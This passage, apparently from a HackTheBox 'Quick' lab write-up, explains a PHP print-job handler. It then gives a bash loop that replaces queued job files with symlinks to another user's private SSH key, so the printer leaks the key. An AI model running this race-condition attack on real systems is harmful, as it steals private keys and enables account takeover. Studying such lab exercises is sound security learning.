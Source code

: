```php
        $printer -> cut();
        $printer -> close();
        $message="Job assigned";
        unlink("/var/www/jobs/".$file);
      }
      catch(Exception $error) 
      {
        $error="Can't connect to printer.";
        unlink("/var/www/jobs/".$file);
      }
    }
    else
    {
      $error="Couldn't find printer.";
    }
  }
?>
```

Whats happening here is It is `making` a file with current `timestamp` name and sending it to `print` on port and IP specified in `add-printer` functionality

![Quick](/assets/img/post/hackthebox/quick/15.png)

So what we can do is create a symlink to read `ssh` keys of `srvadm` therefore I am going to create a `script` and run it on loop


```bash
#!/bin/sh
cd /var/www/jobs;
while true;
do
        for file in $(ls .);
        do
                rm -rf $file;
                ln -s /home/srvadm/.ssh/id_rsa $file;
        done
done
```
